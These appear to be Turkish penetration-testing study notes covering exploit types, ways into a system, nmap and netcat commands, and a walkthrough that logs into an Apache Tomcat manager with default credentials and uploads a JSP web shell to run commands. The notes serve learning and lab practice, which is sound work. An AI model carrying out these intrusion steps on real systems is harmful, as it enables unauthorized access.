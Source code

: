 ## Exploit Türleri

1) Remote
2) Local
3) Dos
4) 0day

**- Bir sisteme sızmanın 5 yolu:**

1) İşletim sistemindeki zafiyetler	(MS08-067, MS16-098..)
2) Üçüncü parti yazılımlardaki zafiyetler	(CVE-2016-8523, CVE-2016-9079)
3) Yapılandırma Eksiklikleri	(FTP, Tomcat, Jenkins...)
4) Ağ tabanlı Zafiyetler	(ARP Poisoning, NETBIOS/LLMNR Poisoning)
5) Sosyal mühendislik		(Phishing, Vishing)

- nmap ile -n parametresi kullanmak ters DNS sorgularını skip etmesini sağlar. Eğer işimiz sadece IP'ler ile ise işlemi hızlandırır.

		=> nmap -n -Pn -sV -v --open <target>

- Windows makinelerde 135, 139, 445 portları açık gelir. 
- İşletim sistemini nokta atışı olarak bilmemiz gerekir. Eğer bunu öğrenmek istiyorsak smb-os-discovery script'ini kullanabiliriz. (Windows 10'a kadar çalışır.) 
- Windows makinede Workgroup: WORKGROUP ise makine standalone (tek tabanca) takılan bir makinadır.
- Bulduğumuz exploit'leri bilgisayar programları gibi indirip çalıştırabiliriz. Linux kullanırken tercihen python ile yazılan exploitler daha avantajlı, çünkü windows'a karşı C ile yazılmış bir exploiti kullanabilmemiz için kütüphaneleri tanıtmak ve wine benzeri bir program kullanmak zorundayız.

**- Exploiti yolladıktan sonra gelen bağlantı isteklerini dinlemek için:**
		
		=> nc <hedef> <port> -vv
		
- Windows'ta en yüksek yetkili kullanıcı: nt authority/system
- Hedefte exploit edilen uygulama hangi kullanıcı tarafından çalıştırılmışsa biz de o kullanıcının yetkilerine sahip oluruz.

**- Linux örneği:**

	=> nmap -n -Pn -sV -v IP -p 8180 (Apache Tomcat/Coyote JSP engine 1.1) (HTTP)
	B> IP:8180
	B> IP:8180/askojdoksa/ (Uygulamaya hata verdirttiğimizde versiyon bilgisi yazabilir.)
	B> IP:8180/manager/html default user:pass'ları elle veya araçlarla deneyebiliriz. (tomcat:tomcat)

- Tomcat paneline girdiğimizde eğer war file to upload kısmı geliyorsa yönetici hesabıyla giriş yaptığımız anlamına gelir.
- En altta işletim sistemi ve kernel bilgisi yer alır.
- war uzantısı zip gibidir.

		=> cd /usr/share/laudanum/	(Çeşitli shell dosyaları bulunan bir dizin, kali default)
		=> cd jsp/	(cmd.war kullanacağımız dosya)
		B> cmd.war dosyasını upload ediyoruz.
		B> IP:8180/cmd/cmd.jsp
		B> whoami (tomcat55 => yetkisiz bir kullanıcı, sadece tomcat servisini başlatır veya durdurur.)

- Bir işletim sisteminde iki şekilde hak yükseltilir:
>1) Yanlış yapılandırılmış bir eksiklik bulmamız gerekir.
>2) İşletim sistemininin kernel'inde bulunan bir zafiyet kullanmamız gerekir.
